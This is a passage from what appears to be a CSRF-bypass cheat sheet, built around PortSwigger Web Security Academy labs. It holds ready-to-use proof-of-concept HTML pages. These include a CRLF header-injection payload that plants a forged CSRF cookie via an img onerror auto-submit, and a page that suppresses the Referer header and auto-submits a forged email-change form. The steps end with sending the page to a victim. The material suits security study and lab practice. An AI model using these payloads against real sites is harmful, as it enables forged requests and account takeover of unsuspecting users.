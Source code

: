 ```markdown
<img src="http://ac981fc81ee9f58b80984ae400200076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9" onerror="document.forms[0].submit()">
</body>
</html>


Test Case - 2 : CSRF token is simply duplicated in a cookie, here csrf token value can be anything just need to be same in cookie as wells as param. 

1. Intercept and action and try changing csrf token in both cookie and param
2. Make similar poc as above but this time put same csrf token in crlf payload and request param.
3. Done, Send it to victim.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac071f601e8dc74380609c1d000900b3.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrf" value="K5r92qL9pGzpC2joPMkqgBSY1GG3eo6I">
		<input type="text" name="session" value="xdCFpxBe1M0MHvk0DmFuzCRlImMgdxZk">
		<input type="text" name="email" value="natsu@natsu.com">
		<input type="text" name="csrf" value="fake">
		<input type="submit" value="Send">
	</form>
<img src="http://ac071f601e8dc74380609c1d000900b3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()">
</body>
</html>

```

## Bypass Method - 5 : Delete the Referrer Header Completely or Suppress it.

```markdown
Test Case: CSRF where Referer validation depends on header being present.

1. Intercept the request and try changing referer to some other domain.
2. If that didn't work then you will have to suppress the refere header.
3. you can use `<meta name="referrer" content="no-referrer">` or any other technique.
4. Done, Make a normal POC with that technique.

Example CSRF POC:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac6d1fe21fb2a0c7809510e7001c006c.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="session" value="S4dyJbRWg1IqEpZlPkhICE5vJQhnv6ve">
		<input type="text" name="email" value="hola@hola.com">
<meta name="referrer" content="no-referrer">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

```